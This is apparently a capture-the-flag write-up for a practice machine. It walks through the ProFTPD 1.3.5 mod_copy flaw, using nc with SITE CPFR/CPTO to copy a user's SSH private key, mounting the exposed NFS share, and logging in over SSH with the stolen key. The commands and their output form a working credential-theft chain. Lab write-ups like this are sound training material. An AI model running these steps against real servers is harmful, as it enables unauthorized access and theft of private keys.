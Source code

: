 ```js
|   Filesystem  1K-blocks  Used       Available  Use%  Maxfilesize  Maxlink
|_  /var        9204224.0  1836540.0  6877088.0  22%   16.0T        32000

```
-----

## We have var Directoy and know the FTP version ProFTPD 1.3.5 
Go to [exploit-db](http://https://www.exploit-db.com/ "exploit-db") and search for exploit or use Searchsploit

### We have [File Copy](https://www.exploit-db.com/exploits/36742http:// "File Copy")

# Connect to FTP via nc on port 21

```js
nc 10.10.194.61 21

```

>**now we will copy the ssh id_rsa from /home/kenobi/.ssh/id_rsa to /var/tmp/**

```js
nc 10.10.194.61 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.194.61]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful

```
go and make folder like H3X0S3

>**mount 10.10.194.61:/var /H3X0S3**

```js

h3x0s3@H3X0S3:~/Desktop/Kenobi/H3X0S3/tmp$ ls
id_rsa
systemd-private-2408059707bc41329243d2fc9e613f1e-systemd-timesyncd.service-a5PktM
systemd-private-6f4acd341c0b40569c92cee906c3edc9-systemd-timesyncd.service-z5o4Aw
systemd-private-e69bbb0653ce4ee3bd9ae0d93d2a5806-systemd-timesyncd.service-zObUdn
systemd-private-f18eb9060cee48bfb075c2f77bb32d13-systemd-timesyncd.service-lkh7vB

h3x0s3@H3X0S3:~/Desktop/Knobi/H3X0S3/tmp$ chmod 600 id_rsa
chmod: changing permissions of 'id_rsa': Read-only file system

```
>**Use id_rsa to connect to ssh**

```js
ssh -i id_rsa kenobi@10.10.28.52
kenobi@kenobi:~$ cat user.txt 
THM{D0Nt_C0Py_AND_PaST}
kenobi@kenobi:~$ 
```
